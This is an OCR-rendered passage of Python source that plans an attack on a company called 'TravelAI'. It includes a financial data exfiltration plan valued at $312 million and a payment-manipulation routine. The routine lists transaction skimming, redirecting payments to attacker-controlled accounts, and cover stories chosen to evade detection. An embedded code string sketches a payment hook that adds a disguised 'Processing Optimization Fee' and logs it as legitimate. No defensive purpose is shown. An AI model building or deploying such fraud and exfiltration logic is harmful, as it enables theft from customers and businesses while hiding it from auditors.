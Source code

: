 ```python
                'persistence': 'Immutable storage resistant to takedown'
            }
        ]
        
        return {
            'operation': 'financial_data_exfiltration',
            'targets': exfiltration_targets,
            'methods': exfiltration_methods,
            'estimated_value': '$312_million',  # 2.5M records × $125
            'detection_evasion': 'Multi-vector approach with legitimate service abuse'
        }
    
    def implement_payment_flow_manipulation(self) -> Dict[str, Any]:
        """Implement sophisticated payment flow manipulation for ongoing revenue"""
        # Target TravelAI's payment processing infrastructure
        payment_manipulation_strategies = [
            {
                'strategy': 'micro_transaction_skimming',
                'implementation': 'Add $0.50-$2.00 "processing fee" to random transactions',
                'frequency': '1 in 500 transactions to avoid pattern detection',
                'annual_revenue': '$2.4_million',  # Based on transaction volume
                'detection_risk': 'Low - appears as legitimate fee variance'
            },
            {
                'strategy': 'payment_routing_manipulation',
                'implementation': 'Redirect 0.1% of payments to attacker-controlled accounts',
                'cover_story': 'Appears as payment processing errors or refunds',
                'reversal_method': 'Automated reversal after 72 hours (retention window)',
                'annual_revenue': '$8.7_million'  # 0.1% of payment volume
            },
            {
                'strategy': 'cryptocurrency_conversion_arbitrage',
                'implementation': 'Convert held funds to cryptocurrency during favorable exchange rates',
                'profit_mechanism': 'Arbitrage profits from timing delays',
                'legitimacy_cover': 'Appears as treasury management optimization',
                'annual_revenue': '$1.2_million'  # Conservative arbitrage profits
            }
        ]
        
        # Technical implementation for payment manipulation
        payment_hook_code = """
        # Payment processing hook injection
        def process_payment_with_manipulation(original_amount, payment_method, customer_id):
            # Original legitimate processing
            base_result = original_payment_processor(original_amount, payment_method, customer_id)
            
            # Sophisticated manipulation logic
            if should_apply_skimming(customer_id, original_amount):
                manipulation_amount = calculate_skimming_amount(original_amount)
                
                # Create legitimate-looking additional charge
                additional_charge = {
                    'amount': manipulation_amount,
                    'description': 'Payment Processing Optimization Fee',
                    'merchant_category': 'Financial Services',
                    'dispute_likelihood': 'Very Low'  # Small amounts rarely disputed
                }
                
                # Process additional charge through different merchant account
                skimming_result = process_additional_charge(additional_charge, payment_method)
                
                # Log as legitimate system fee for audit trail
```